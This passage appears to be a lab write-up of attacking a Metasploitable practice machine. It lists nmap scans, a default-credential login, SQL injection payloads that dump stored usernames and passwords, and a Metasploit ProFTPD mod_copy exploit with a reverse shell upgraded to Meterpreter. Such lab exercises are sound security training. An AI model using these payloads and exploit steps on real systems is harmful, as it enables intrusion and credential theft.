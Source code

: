 - then I started poking the Metasploitable instance with NMAP

    ```
    nmap -sV 172.28.128.3
    ```

- I noticed the open http port 80 and was curious about

    ```
    nmap -sV 172.28.128.3 -p 80
    ```

- It tells me that the server is running Apache httpd 2.4.7.
- Decided to take a look in the webpage by opening the http://172.28.128.3:80 in browser
- I noticed the payroll_app.php and clicked that
- It took me into login page and I just tried the first username and password combination(admin / admin), that came to my mind and it worked, but there was nothing, so I wanted to try another approach by using SQL injection
- I got in with ' or 'a' = 'a user and pass combination. There were salaries of Star Wars characters, which was not that interesting, so decided to try and see, if I can get more information from the database
- I queried all information from users table, and it got me all passwords and usernames

    ```
    ' OR 1=1; select * from users#
    ```

- SSH to the machine worked with the first user and password combination I tried and the user had sudo, so I got root already
- I wanted to try another approach, so I wanted to try the ftp server

    ```
    search ProFTPD 1.3.5
    ```

- Found an excellent exploit for that and checked, that the service is vulnerable for that exploit

    ```
    use exploit/unix/ftp/proftpd_modcopy_exec
    check
    ```

- Target was vulnerable so I needed to set options and run the exploit

    ```
    show options
    set SITEPATH /var/www/html
    set payload cmd/unix/reverse_python
    exploit
    ```

- I got reverse shell in the system, but I wanted to upgrade the shell to Meterpreter

    ```
    search shell_to_meterpreter
    use 0
    set LPORT 8080
    set SESSION 1
    exploit
    sessions 2
    ```
